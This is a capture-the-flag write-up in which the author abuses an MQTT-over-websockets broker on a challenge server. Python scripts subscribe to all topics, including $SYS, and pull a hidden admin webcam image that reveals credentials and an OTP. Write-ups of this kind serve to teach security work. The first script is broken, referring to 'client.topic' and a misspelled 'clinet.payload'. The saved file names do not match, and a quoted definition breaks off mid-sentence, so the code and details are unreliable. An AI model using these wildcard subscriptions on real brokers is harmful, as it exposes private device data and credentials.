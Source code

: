 # time for h4x0rpsch0rr?

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

![alt text](1.png "Chall")

Checking out the website we found two pages.

![alt text](2.png "Chall")

![alt text](3.png "Chall")

Trying to login to the admin panel did not do much. Gave up pretty quickly on that and moved on to some other interesting stuff.

![alt text](4.png "Chall")

We find in the source code of the first page that it's running mqtt over websockets.

    This is wikipedias definition of MQTT:
    A lightweight messaging protocol for small sensors and mobile devices, optimized for high-latency or unreliable networks, enabling a Smarter Planet and the.


 Cool. Let's use python and see what we can do with this.


We can use this script to subscribe to all topics and all sys topics. This might reveals some good stuff we can use.

```python
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
   client.subscribe('#', qos = 1)        # Subscribe to all topics
   client.subscribe('$SYS/#')            # Subscribe to sys topics 

def on_message(client, userdata, msg):
    print "Topic %s, %s" % (client.topic, clinet.payload)
client = mqtt.Client(transport="websockets")
client.on_connect = on_connect
client.on_message = on_message
client.connect('159.69.212.240', 60805, 60) 
client.loop_forever()
```

In the output we see a hidden topic in one of the payloads called `$internal/admin/webcam`. Let's subscribe to that topic and dump the payload:
```python
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
    client.subscribe("$internal/admin/webcam")

def on_message(client, userdata, msg):
    print msg.payload
    exit()
client = mqtt.Client(transport="websockets")
client.on_connect = on_connect
client.on_message = on_message
client.connect('159.69.212.240', 60805, 60)
client.loop_forever()
```

```bash
$ python mqtt_script.py > output
```

Running `file` on it reveals an image..
```bash
$ file flag.png 
flag.png: PNG image data, 490 x 202, 8-bit/color RGB, non-interlaced
```

Opening the image we get the following:

![alt text](payload.png "Chall")

Okay, we now have the username, password and the OTP token! Lets login on the admin page.

![alt text](flag.png "Chall")

Fun challenge! 5/5 


#### References:

https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b

